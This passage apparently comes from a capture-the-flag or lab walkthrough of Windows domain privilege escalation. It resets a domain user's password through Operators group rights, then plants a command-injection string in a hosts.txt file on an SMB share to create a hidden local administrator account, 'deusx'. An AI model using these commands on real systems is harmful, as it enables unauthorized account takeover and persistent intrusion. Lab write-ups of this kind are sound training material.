 Which gives the permission to add users.

Also we are able to change the password of the user brittanycr because the user buse is part of the Operators Group.

```powershell
net user brittanycr 'Password123#' /domain
```

![](attachments/20240621130256.png)

Login to the smb share `Users` as the user `brittanycr`

![](attachments/20240621130434.png)

Access the directory and get the hosts.txt file or just create a new file named hosts.txt on your machine

insert the contents 

![](attachments/20240621152743.png)

```powershell
;net user /add deusx Password123; net localgroup administrators deusx /add
```

This will create a new user named `deusx` with the password and add them to the administrators group

After that replace the file (make sure to delete the existing file using `del hosts.txt`)

![](attachments/20240621130924.png)
